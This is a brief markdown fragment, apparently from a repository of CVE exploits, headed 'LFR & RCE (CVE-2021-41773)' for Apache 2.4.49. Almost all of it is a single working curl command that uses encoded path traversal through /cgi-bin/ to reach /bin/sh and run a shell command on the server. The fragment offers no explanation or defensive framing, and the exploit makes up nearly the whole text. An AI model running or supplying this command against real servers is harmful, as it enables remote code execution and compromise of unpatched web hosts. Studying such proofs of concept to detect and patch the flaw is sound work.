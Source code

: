 # CVE

## LFR & RCE (CVE-2021-41773)

<= Apache 2.4.49

```
curl --data "A=|echo;id" 'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```
